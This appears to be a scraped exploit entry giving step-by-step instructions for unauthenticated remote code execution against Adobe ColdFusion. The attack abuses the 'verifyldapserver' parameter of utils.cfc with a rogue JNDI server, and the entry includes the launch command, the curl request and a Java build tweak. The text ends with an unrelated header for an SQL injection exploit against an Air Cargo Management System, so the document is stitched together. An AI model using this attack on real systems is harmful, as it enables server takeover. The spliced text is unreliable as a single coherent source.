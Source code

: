# Description:
# ColdFusion allows an unauthenticated user to connect to any LDAP server. An attacker can exploit it to achieve remote code execution.
# JNDI attack via the 'verifyldapserver' parameter on the utils.cfc

==================== 1.Setup rogue-jndi Server ====================

https://github.com/veracode-research/rogue-jndi


==================== 2.Preparing the Attack =======================

java -jar target/RogueJndi-1.1.jar --command "touch /tmp/owned" --hostname "attacker_box"

==================== 3.Launch the Attack ==========================


http://REDACTED/CFIDE/wizards/common/utils.cfc?method=verifyldapserver&vserver=LDAP_SERVER&vport=LDAP_PORT&vstart=&vusername=&vpassword=&returnformat=json


curl -i -s -k -X $'GET' \
    -H $'Host: target' \
    --data-binary $'\x0d\x0a\x0d\x0a' \
    $'http://REDACTED//CFIDE/wizards/common/utils.cfc?method=verifyldapserver&vserver=LDAP_SERVER&vport=LDAP_PORT&vstart=&vusername=&vpassword=&returnformat=json'


==================== 4.RCE =======================================

Depend on the target need to compile the rogue-jndi server with JAVA 7 or 8
Can be done by modify the pom.xml as below

<configuration>
<source>7</source>
<target>7</target>
</configuration>
# Title: Air Cargo Management System v1.0 - SQLi
# Author: nu11secur1ty
# Date: 02.18.2022
# Vendor: https://www.sourcecodester.com/users/tips23
# Software: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html
# Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/blob/main/vendors/oretnom23/2022/Air-Cargo-Management-System

